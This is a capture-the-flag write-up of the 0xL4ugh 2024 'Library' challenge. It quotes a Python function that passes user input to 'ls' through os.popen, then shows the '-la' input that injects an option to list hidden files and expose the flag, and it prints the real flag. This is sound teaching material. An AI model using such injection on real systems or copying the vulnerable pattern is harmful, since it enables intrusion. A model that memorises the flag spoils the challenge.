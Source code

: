 ```yaml
---
layout: post
title:  "laugh ctf"
date:   2024-02-11 09:29:20 +0700
categories: python ctf
usemathjax: true
---
```

## challenge
https://ctf24.0xl4ugh.com/challenges#Library-17
## files
```
C:\home\radha\Downloads\laugh_ctf\misc\library\Library> ls   
Dockerfile  build-docker.sh  challenge.py  exec.sh
```
## docker file 
```
FROM alpine:latest@sha256:51b67269f354137895d43f3b3d810bfacd3945438e94dc5ac55fdac340352f48
ENV PAGER=''
ENV FLAG='0xL4ugh{F4k3_Fl4G_F0r_T4stIng}'
RUN apk add socat python3 py3-pip
RUN adduser -D challenger
RUN pip3 install rich  --break-system-packages
WORKDIR /home/challenger
USER challenger
COPY challenge.py .
COPY exec.sh . 
ENTRYPOINT ["sh","exec.sh"]

```
### analysis
- we see flag is set as part of env varaible
## challenge.py
- it is a long file 
- find it (here)[https://drive.google.com/file/d/1xeojgJlid9T974jVUWzozuHCzlpgM_Ly/view?usp=drive_link]
## analysis
- at line 7 os module is imported 
- so a quick serach for where `os `is used 
- one place to get a random number ,user dont have contorl over the input line28
- another place line 136
```
def check_file_presence():
    book_name = shlex.quote(console.input("[bold blue]Enter the name of the book (file) to check:[/bold blue] "))
    command = "ls " + book_name

    try:
        result = os.popen(command).read().strip()
        print(result)
        if result == book_name:
            console.print(f"[bold green]The book is present in the current directory.[/bold green]")
        else:
            console.print(f"[bold red]The book is not found in the current directory.[/bold red]")
    except Exception as e:
        console.print(f"[bold red]Error: {e}[/bold red]")
```
- a quick search for when this funciton is called leads us to line 208

elif choice == 8:
            check_file_presence()



- so we need to give option 8
- our input is appended to ls command(long list of files)
- just tried ls -la

```
C:\tmp> nc 172.190.120.133 50003

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 8
Enter the name of the book (file) to check: -la
total 84
-rw-r--r--    1 challeng challeng         9 Feb 10 10:47 $FLAG
-rw-r--r--    1 challeng challeng         9 Feb  9 23:13 *
drwxr-sr-x    1 challeng challeng      4096 Feb 10 10:47 .
drwxr-xr-x    1 root     root          4096 Feb  1 14:20 ..
-rw-r--r--    1 challeng challeng        11 Feb 10 08:46 .env
-rw-r--r--    1 challeng challeng         9 Feb 10 10:35 0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
-rw-r--r--    1 challeng challeng         9 Feb  9 18:22 <__main__.SaveFile object at 0x7f07dd284050>
-rw-r--r--    1 challeng challeng         9 Feb  9 21:50 <__main__.SaveFile object at 0x7f3807760310>
-rw-r--r--    1 challeng challeng         9 Feb  9 21:51 <__main__.SaveFile object at 0x7f380778a8d0>
-rw-r--r--    1 challeng challeng         9 Feb  9 21:54 <__main__.SaveFile object at 0x7f380778e090>
-rw-r--r--    1 challeng challeng         9 Feb 10 01:40 <__main__.SaveFile object at 0x7fbc9d0dab10>
-rw-r--r--    1 challeng challeng        11 Feb 10 10:46 FLAG
-rw-r--r--    1 challeng challeng         9 Feb  9 18:00 a
-rw-r--r--    1 challeng challeng         9 Feb  9 23:08 afkjkadf
-rw-rw-r--    1 root     root          8975 Jan 31 22:43 challenge.py
-rw-rw-r--    1 root     root           103 Jan 31 22:19 exec.sh
-rw-r--r--    1 challeng challeng         9 Feb  9 20:46 print()
-rw-r--r--    1 challeng challeng        11 Feb 10 01:39 {FLAG}
The book is not found in the current directory.

Library Management System
1. Add Member

```
and hhere is the flag
```-rw-r--r--    1 challeng challeng         9 Feb 10 10:35 0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}```
